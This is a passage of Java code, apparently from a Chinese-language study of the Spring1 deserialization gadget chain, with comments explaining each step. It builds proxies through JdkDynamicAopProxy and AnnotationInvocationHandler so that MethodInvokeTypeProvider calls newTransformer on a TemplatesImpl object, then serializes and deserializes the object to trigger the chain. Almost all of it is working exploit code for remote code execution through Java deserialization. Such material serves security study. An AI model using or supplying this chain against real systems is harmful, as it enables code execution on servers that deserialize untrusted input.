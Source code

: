 ```

        // JdkDynamicAopProxy 的 invoke 方法触发 TargetSource 的 getTarget 返回 tmpl
        // 并且会调用 method.invoke(返回值,args)
        // 此时返回值被我们使用动态代理改为了 TemplatesImpl
        // 接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?>       clazz          = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> aopConstructor = clazz.getDeclaredConstructors()[0];
        aopConstructor.setAccessible(true);
        // 使用 AdvisedSupport 实例化 JdkDynamicAopProxy
        InvocationHandler aopProxy = (InvocationHandler) aopConstructor.newInstance(as);

        // JdkDynamicAopProxy 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 JdkDynamicAopProxy 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, aopProxy);


        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field  field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        objectOutputStream.writeObject(objects);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(fileName));
        objectInputStream.readObject();
    }
    public static void setFieldValue(Object obj,String fileName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fileName);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```